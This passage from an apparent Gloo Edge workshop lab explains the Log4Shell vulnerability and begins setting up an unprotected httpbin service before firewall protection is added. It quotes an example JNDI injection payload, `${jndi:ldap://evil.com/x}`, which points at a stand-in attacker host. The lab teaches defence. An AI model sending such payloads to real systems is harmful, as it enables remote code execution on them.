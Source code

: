 After the refactoring, if you re-query the `httpbin` service, you will see that everything still works the same: the request is authenticated and authorized, claims are extracted and stored as headers, and rate-limiting applies. 






## Lab 8 - Web application firewall <a name="Lab-8"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Edge Enterprise includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Edge we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

## What is the Log4Shell vulnerability? 

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

## Demonstrate a vulnerable service

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

We'll first establish a virtual service that does NOT protect against the exploit, and evaluate it against the httpbin service we installed in earlier exercises.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```
